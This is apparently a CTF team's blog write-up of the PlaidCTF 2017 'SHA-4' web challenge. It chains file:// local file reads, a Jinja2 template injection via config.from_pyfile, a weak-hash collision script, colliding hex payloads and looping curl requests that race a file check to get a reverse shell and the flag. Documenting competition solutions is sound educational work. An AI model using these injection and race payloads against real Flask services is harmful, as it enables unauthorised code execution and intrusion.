 ```yaml
---
layout: post
title: "PlaidCTF 2017 - SHA-4"
date:   2017-04-23 00:00
categories: CTF
tags: [PlaidCTF2017]
categories: [Web,Crypto]
author: jbz
---
```


## SHA-4
Web - 300 Points


### Writeup

This challenge provided two forms, one which allowed to upload fomments and a textarea which would parse an hex encoded, ans1 enveloped input.

Solution *tl;dr*

    local file read, hash collision, template injection, race condition


#### Directory Traversal

It is trivial to find a directory traversal by using the `file://` uri scheme instead of the intended `http://` or `https://` ones. Once We got file-reading access, by getting the system version from `file:///etc/issue` and getting the cmdline from `file:///proc/self/cmdline` we found the directory of the python webapp: `/var/www/sha4`.

By guessing we found out that the directory contained those 2 files:
[server.py](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_server.py)
[sha4.py](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_sha4.py)

By checking the code we can see a possible template injection here:

    return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))

However we can't directly send an input containing characters such as `{}` or `/` because the function `is_unsafe()` check if our comments contains chars not whitelisted in `string.ascii_letters + string.digits + " ,.:()?!-_'+=[]\t\n<>"` before rendering it.

The code however seems a little strange for what it is intended to do, let's check the whole `comments()` function:

{% highlight python %}
try:
  encoded = request.form['comment']
  encoded.replace("\n","\r")
  ber = encoded.decode("hex")
except TypeError:
  return render_template_string(bad)
f = "/var/tmp/comments/%s.txt"%hash(ber).encode("hex")
  
out_text = str(decode(ber))
open(f, "w").write(out_text)

if is_unsafe(out_text):
  return render_template_string(unsafe)

commentt = comment % open(f).read()
return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))
{% endhighlight %}

So the code does the following:

 - hex decode the comment POST parameter
 - calculate the 'sha4' hash of the input
 - set the path `/var/tmp/comments/<hash>.file` as output
 - asn1 ber decode the input
 - write the decoded input to the file
 - check if it contain unsafe characters
 - if the previous check is false render the template

#### Template Injection

Since the webapp use Flask, so we can grab the code needed from [Exploring SSTI in flask](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) which hash the following requirements to achieve Command Execution:

 - upload a python reverse shell payload
 - inject `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` in the render_template function

Uploading is simple, we just need to upload the file using the upload form and calculate its path with the `sha4` function.  
The second point is the hard one.  
If we take a closer look at the `comments()` function we can notice there's something a little unusual: why would the programmer write the input to disk, check if it's safe and read it back? It is already in the `out_text` variable!

This seem coded to create a race condition situation and make the challenge solvable.
So basically, to exploit the template injection we need to:

 - find a `sha4` hash collision between two asn1 encoded strings: one containing `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` and a safe one (which means without `{}` and `/`)
 - send both requests as fast as we can to have enough luck to exploit the race condition by overwriting the file `/var/tmp/comments/<collided hash>.txt` with the malicious payload while the script has passed the is_unsafe() check on the safe payload


#### Collision!

We find out that finding a collision was pretty easy.
For every char there was a colliding one for each position in the DES key (see sha4.py file).

So we calculate each colliding char in each position for out 3 forbidden char (`{}/`) with this small snippet

{% highlight python %}
def char_position_collision(char):
    for j in xrange(7):
        m1 = "a"*j + char
        for i in xrange(0,256):
            m2 = "a"*j+chr(i)
            if m1 != m2 and hash(m1) == hash(m2):
                print(m1,m2)
                break
char_position_collision("{")
char_position_collision("}")
char_position_collision("/")
{% endhighlight %}

Then we wrote this [script](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_find_payload.py) that:

 1. take our "bad" payload, for each "bad" character replace it with it's relative collision
 2. set dummy padding at the start and at the end of the payload, since the hash function was appending a padding block that needs to collide as well. 
 3. encode both "good" and "bad" payload as ASN.1
 4. hash them!

Here the 2 payload, ASN.1 encoded
```
0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161
0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161
```

#### Finally, the Flag

Once we have the colliding payloads we just have to send both requests, as fast as we can, possibly using multiple threads; so from a server with a fast connection we can simply open multiple tmux sessions, running one of the following command is each
{% highlight shell %}
while true; do curl --data 'comment=0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}
{% highlight shell %}
while true; do curl --data 'comment=0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}

After a while the reverse shell should call back to our netcat listener:  

{% highlight shell %}
$ whoami
www-data
$ uname -a
Linux chal-sha4 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www
$ ls
html
sha4
$ ls sha4
flag_bilaabluagbiluariglublaireugrpoop
server.py
server.pyc
sha4.py
sha4.pyc
sha4.wsgi
static
templates
$ cat sha4/flag_bilaabluagbiluariglublaireugrpoop
PCTF{th3 security aspect of cyber is very very tough}
{% endhighlight %}

